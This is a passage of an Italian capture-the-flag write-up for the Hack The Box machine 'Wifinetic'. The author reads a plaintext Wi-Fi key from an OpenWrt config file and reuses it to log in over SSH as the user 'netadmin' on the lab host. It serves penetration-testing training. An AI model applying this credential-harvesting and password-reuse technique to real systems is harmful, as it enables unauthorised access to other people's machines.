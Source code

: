 abbiamo l'utente `netadmin` che ha la sua home,
andiamo avanti ad esplorare...

all'interno `wireless` abbiamo quelle che sembra la configurazione della rete wireless.

```shell-session
┌──(kali㉿kali)-[~/htb/wifinetic/etc/config]
└─$ cat wireless

config wifi-device 'radio0'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim0'
        option cell_density '0'
        option channel 'auto'
        option band '2g'
        option txpower '20'

config wifi-device 'radio1'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim1'
        option channel '36'
        option band '5g'
        option htmode 'HE80'
        option cell_density '0'

config wifi-iface 'wifinet0'
        option device 'radio0'
        option mode 'ap'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
        option wps_pushbutton '1'

config wifi-iface 'wifinet1'
        option device 'radio1'
        option mode 'sta'
        option network 'wwan'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
```

notiamo che le due reti `wifinet0` e `wifinet1` hanno la stessa password, questo ci può suggerire che la stessa password potrebbe essere riutilizzata anche per altri servizi...
Proviamo a utilizzare per connetterci in ssh con l'utente `netadmin`

```shell-session
┌──(kali㉿kali)-[~/htb/sau/CVE-2023-27163]
└─$ ssh netadmin@10.10.11.247
The authenticity of host '10.10.11.247 (10.10.11.247)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
    ~/.ssh/known_hosts:29: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.247' (ED25519) to the list of known hosts.
netadmin@10.10.11.247's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 03 Dec 2023 07:49:34 PM UTC

  System load:            0.0
```